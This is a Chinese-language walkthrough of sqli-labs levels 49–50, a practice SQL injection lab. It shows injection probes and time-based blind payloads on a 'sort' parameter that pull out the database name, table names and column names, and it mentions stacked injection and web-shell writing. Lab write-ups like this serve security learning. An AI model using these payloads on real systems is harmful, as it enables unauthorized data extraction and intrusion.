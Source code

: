 **判断注入点**<br />http://www.web.com/sql/Less-49/?sort=1'<br />报错，进行注释<br />![](https://img-blog.csdnimg.cn/20200727114809924.png#crop=0&crop=0&crop=1&crop=1&id=nRKu7&originHeight=176&originWidth=322&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

http://www.web.com/sql/Less-49/?sort=1'--+<br />成功<br />![](https://img-blog.csdnimg.cn/20200727114746101.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=HfilL&originHeight=370&originWidth=301&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
说明存在注入点<br />**通过上面的报错可以得知，并没有错误回显，因此只能使用时间盲注**

**以下步骤与Sqli-labs-Less-46中的时间盲注相似，不同的是对参数的处理不同**




# Sqli-labs-Less-50
![](https://img-blog.csdnimg.cn/20200727145944864.png#crop=0&crop=0&crop=1&crop=1&id=BdDiG&originHeight=88&originWidth=1075&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**这个貌似和前面的都是相同的，但是我们通过源码观察可知:<br />在本关中使用了mysgli multi guery()函数<br />而在less46-49关中使用了mysqL fetch_assoc()函数<br />所以这里的不同点就在于本关可以使用堆叠注入的形式，我们可以使用以下几种方法:**

1. 基于时间盲注
2. 基于报错往入
3. 写一句话木马(这里不进行演示)
4. 使用堆叠注入创建删除一个表
5. 使用对叠注入写一句话木马(这里不进行演示)


## 方法一 时间盲注
**判断注入点**<br />http://www.web.com/sql/Less-50/?sort=1'<br />报错并显示我们多了一个'说明此处不需要进行包裹<br />![](https://img-blog.csdnimg.cn/20200727150430646.png#crop=0&crop=0&crop=1&crop=1&id=Lc5h4&originHeight=58&originWidth=1121&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断当前库名称长度**<br />http://www.web.com/sql/Less-50/?sort=1 and if(length(database())=8,1,sleep(2))--+<br />当等于8时没有时间延时，说明数据库名称长度为8

**判断当前数据库名称**<br />http://www.web.com/sql/Less-50/?sort=1 and if(substr((select database()),1,1)=‘s’,1,sleep(2))–+<br />当等于s时没有时间延时，说明首字母为s<br />使用burp爆破出当前库名称<br />![](https://img-blog.csdnimg.cn/20200727152755459.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=g47v9&originHeight=313&originWidth=829&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断表名**<br />http://www.web.com/sql/Less-50/?sort=1 and if(substr((select table_name from information_schema.tables where table_schema=‘security’ limit 0,1),1,1)=‘e’,1,sleep(2))–+<br />使用burp爆破<br />![](https://img-blog.csdnimg.cn/20200727152804683.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=ffCrJ&originHeight=298&originWidth=846&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断字段**<br />http://www.web.com/sql/Less-50/?sort=1 and if(substr((select column_name from information_schema.columns where table_name=‘users’ limit 0,1),1,1)=‘u’,1,sleep(5))–+<br />使用burp爆破<br />![](https://img-blog.csdnimg.cn/20200727152811737.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=HYcU6&originHeight=307&originWidth=855&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
